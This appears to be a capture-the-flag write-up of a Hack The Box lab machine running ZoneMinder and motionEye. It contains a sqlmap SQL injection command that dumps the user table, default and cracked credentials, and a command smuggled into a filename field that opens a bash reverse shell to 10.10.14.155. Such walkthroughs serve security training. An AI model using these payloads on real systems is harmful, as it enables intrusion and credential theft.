import PasswordProtect from "~/components/PasswordProtect.client";

```
Scope:
10.129.7.4
```
# Recon
## Nmap

```bash
sudo nmap -sC -sV -sT -p- -Pn -T5 --min-rate=5000 -vvvv cctv.htb

PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 9.6p1 Ubuntu 3ubuntu13.14 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    syn-ack Apache httpd 2.4.58
|_http-title: SecureVision CCTV & Security Solutions
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
Service Info: Host: default; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

<PasswordProtect client:load> 

## 80/TCP - HTTP

Heading over to the web server I find the following:



I head over to the **Staff Login** where I'm able to log in with default `admin - admin` creds into the **ZoneMinder** instance:





In the top right corner I notice the version number `1.37.63` which I look up:



# Exploitation
## CVE-2024-51482

On [this github page](https://github.com/Gh0s7Ops/CVE-2024-51482-Multi-Stage-Surveillance-System-Exploit) I found the complete guide on how to exploit this instance:



We can go ahead and dump the password hash as follows:

```bash
sqlmap -u "http://cctv.htb/zm/index.php?view=request&request=event&action=removetag&tid=1" \
    --cookie="ZMSESSID=gkj6fc5hvi63avddv68krtpd1r" \
    -p tid --dbms=mysql --batch -D zm -T Users --dump
```





### john



```
mark
opensesame
```

# Foothold
## SSH as Mark

With the found credentials we can easily log in as *mark*:



In order to fetch the user flag we'll have to move laterally to *sa_mark* however:



## Enumeration

During enumeration I discover some internally facing ports:



In order to reach these I go ahead and upload a `ligolo` agent so I can port forward them.





# Privilege Escalation
## 8765/TCP - HTTP

I can now view the ports such as `8765` which turns out to be the **motionEye** service:



In order to log in I need some creds, those of *mark* do not work here unfortunately.

I then tried to find the config file inside the file system:



While the `motioneye.conf` file wasn't useful, the `motion.conf` was:



```
admin
989c5a8ee87a0e9521ec81a79187d162109282f0
```

Using a meticulously crafted worlist I am able to retrieve the password:



```
admin
X1l9fx1ZjS7RZb
```

Using this password I can now gain access:



We can then exploit this as follows:





Next up we head on over to the **Still Images** tab where we will use the following reverse shell payload:

```bash
$(python3 -c "import os;os.system('bash -c \"bash -i >& /dev/tcp/10.10.14.155/443 0>&1\"')").%Y-%m-%d-%H-%M-%S
```



We then press **Apply** and now we can get the shell by using the following command:

```bash
curl "http://240.0.0.1:7999/1/action/snapshot"
```





### root.txt



### user.txt





</PasswordProtect>

---